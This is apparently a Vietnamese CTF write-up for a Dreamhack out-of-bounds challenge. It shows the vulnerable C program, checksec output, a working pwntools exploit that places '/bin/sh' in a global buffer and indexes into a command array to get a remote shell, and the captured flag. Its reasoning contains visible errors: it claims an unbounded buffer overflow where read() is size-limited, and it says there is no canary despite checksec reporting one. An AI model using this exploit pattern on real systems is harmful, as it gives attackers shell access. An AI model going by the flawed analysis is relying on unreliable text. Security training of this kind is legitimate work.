


**1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}

```

- Chương trình cho phép nhập tên vào biến `name`. Ở đây không giới hạn độ dài chuỗi nhập vào nên có lỗi `bof`.
- Sau đó cho phép nhập vào biến `idx` 1 số rồi lại chạy `system` tại mảng `command` ở vị trí vừa nhập. Ở mảng `command` không có chuỗi nào tạo shell được.

**2. Ý tưởng**
Dùng lệnh `checksec` kiểm tra:

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Ta thấy không có `canary` nên có thể thực hiện như sau.

- Ở biến `name` đang là ở 1 vị trí nào đó của mảng `command`. Nên nhập chuỗi `/bin/sh` rồi tìm vị trí thích hợp để in gọi nó vào hàm `system` là xong.

**3. Khai thác**

Đặt breakpoint ở lệnh `read` để xem biến `name` cách `command` bao xa



Ta thấy 2 biến cách nhau 76 byte. Vậy biến `name` đang ở vị trí `command[19]`.

Ta có script như sau:

```
from pwn import *

exe = ELF('out_of_bound', checksec=False)
#r = process(exe.path)
r = remote('host2.dreamhack.games', 18239)

payload = p32(0x804a0b0)
payload += b'/bin/sh\x00'
r.sendafter(b'name: ', payload)
r.sendlineafter(b'want?: ', b'19')
r.interactive()
```

**4. Lấy flag**



`Flag: DH{2524e20ddeee45f11c8eb91804d57296}`